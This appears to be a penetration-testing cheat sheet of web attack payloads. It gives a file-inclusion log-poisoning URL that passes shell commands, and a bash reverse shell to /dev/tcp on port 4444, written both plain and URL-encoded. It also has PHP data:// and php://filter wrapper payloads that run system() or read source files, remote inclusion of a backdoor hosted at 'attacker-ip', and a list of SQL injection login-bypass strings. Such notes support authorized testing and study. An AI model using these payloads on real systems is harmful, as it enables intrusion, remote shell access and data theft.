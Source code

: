 ```powershell
#At first we need 
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>" 
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php 
```

- Remote file inclusion

```powershell
1. Obtain a php shell
2. host a file server 
3.
http://mountaindesserts.com/meteor/index.php?page=http://attacker-ip/simple-backdoor.php&cmd=ls
we can also host a php reverseshell and obtain shell.
```

## SQL Injection

```bash
admin' or '1'='1
' or '1'='1
" or "1"="1
" or "1"="1"--
" or "1"="1"/*
" or "1"="1"#
" or 1=1
" or 1=1 --
" or 1=1 -
" or 1=1--
" or 1=1/*
" or 1=1#
" or 1=1-
") or "1"="1
") or "1"="1"--
") or "1"="1"/*
") or "1"="1"#
") or ("1"="1
") or ("1"="1"--
") or ("1"="1"/*
") or ("1"="1"#
) or '1`='1-
```
